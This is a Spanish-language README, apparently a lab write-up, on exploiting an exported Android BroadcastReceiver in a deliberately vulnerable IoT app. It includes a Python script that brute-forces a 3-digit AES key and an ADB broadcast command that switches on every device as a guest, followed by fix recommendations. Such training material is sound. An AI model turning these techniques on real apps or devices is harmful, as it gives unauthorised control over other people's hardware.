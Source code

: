 # 🔓 IoT Connect - Análisis y Explotación de BroadcastReceiver Vulnerable

Este repositorio documenta el análisis completo y explotación de una vulnerabilidad crítica en una aplicación Android IoT ficticia, **IoT Connect**, utilizada como laboratorio para prácticas de pentesting móvil.

---

## 🧪 Instalación y Registro

Comenzamos instalando el APK en el dispositivo.

![Instalación del APK](imagenes/01_instalacion_apk.png)

Creamos una nueva cuenta de usuario:  
`fr3do : fr3do`

![Formulario de registro](imagenes/02_signup_form.png)  
![Registro exitoso](imagenes/03_signup_success.png)  
![Inicio de sesión](imagenes/04_login.png)

---

## 🔍 Exploración del Comportamiento

Una vez dentro de la app, notamos que algunos dispositivos pueden ser controlados.

![Vista de control de artefactos](imagenes/05_dispositivos_apagados.png)

Pero como usuario invitado, aparece el mensaje:

> **"Sorry Guest..."**

Esto sugiere que existen funciones ocultas o limitadas por permisos. Es el punto de partida para el análisis en `jadx-gui`.

![Mensaje de error de Guest](imagenes/06_sorry_guest.png)

---

## 🧬 Análisis Estático con jadx-gui

### AndroidManifest.xml

Exploramos el archivo `AndroidManifest.xml` y encontramos:

```xml
<receiver
    android:name="com.mobilehackinglab.iotconnect.MasterReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter>
        <action android:name="MASTER_ON"/>
    </intent-filter>
</receiver>

✅ Está exportado, lo que significa que cualquier app externa o ADB puede enviarle un intent.
Componentes Relevantes

Componentes Relevantes
Componentes encontrados en el AndroidManifest:

MainActivity, LoginActivity, SignupActivity

IoTNavigationActivity, HomeActivity

MasterSwitchActivity – Su nombre sugiere control administrativo o maestro.

CommunicationManager – Maneja las comunicaciones, y contiene el método initialize() que registra dinámicamente el receptor para MASTER_ON.

Lógica en CommunicationManager
En la clase CommunicationManager:

Se registra dinámicamente un BroadcastReceiver para la acción MASTER_ON.

Se extrae un parámetro key del Intent.

Se verifica mediante Checker.INSTANCE.check_key(key).

Si es válido, se llama a turnOnAllDevices(context).

Análisis de Seguridad: Checker
En la clase Checker se encuentra lo siguiente:

java
Copiar
Editar
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

public final boolean check_key(int key) {
    return decrypt(ds, key).equals("master_on");
}
El string cifrado se desencripta con AES/ECB/PKCS5Padding.

La clave se genera con el valor entero del PIN proporcionado.

Si el resultado es "master_on" el acceso es válido.


🧨 Fuerza Bruta del PIN
Como el PIN es de 3 dígitos, creamos un script Python para romper la clave por fuerza bruta.

Código Python
python
Copiar
Editar
from Crypto.Cipher import AES
from base64 import b64decode

ds = "OSnaALIWUkpOziVAMycaZQ=="

def generate_key(key):
    key_bytes = bytearray(16)
    static_bytes = str(key).encode("utf-8")
    key_bytes[:len(static_bytes)] = static_bytes[:16]
    return bytes(key_bytes)

def decrypt(ds, key):
    secret_key = generate_key(key)
    cipher = AES.new(secret_key, AES.MODE_ECB)
    decrypted = cipher.decrypt(b64decode(ds))
    return decrypted.decode("utf-8")

for i in range(100, 1000):
    try:
        result = decrypt(ds, i)
        if "master_on" in result:
            print(f"✔️ Key encontrada: {i}, Resultado: {result}")
            break
    except Exception:
        continue


Resultado:

yaml
Copiar
Editar
✔️ Key encontrada: 345, Resultado: master_on
🚀 Explotación desde ADB
Ahora podemos explotar la vulnerabilidad usando el siguiente comando ADB:

bash
Copiar
Editar
adb shell am broadcast -a MASTER_ON --ei key 345
Resultado:

✅ El sistema responde:
All devices are turned on

✅ Confirmamos que, incluso como "Guest", pudimos activar todos los artefactos IoT.



✅ Conclusión
Se descubrió un BroadcastReceiver vulnerable expuesto sin validación de permisos.

Fue posible forzar la clave por fuerza bruta (solo 3 dígitos).

Se obtuvo control total de los dispositivos conectados simplemente enviando un Intent.

🛡️ Recomendaciones de Seguridad
Establecer android:exported="false" para componentes sensibles.

Validar siempre permisos y autenticación en receivers.

Utilizar claves fuertes y derivadas de métodos seguros (PBKDF2, bcrypt, etc).

No usar AES en modo ECB (es inseguro y predecible).

Evitar lógica de seguridad crítica en el lado cliente.

📁 Créditos
Análisis realizado por fr3do

Laboratorio: IoT Connect - Mobile Hacking Lab
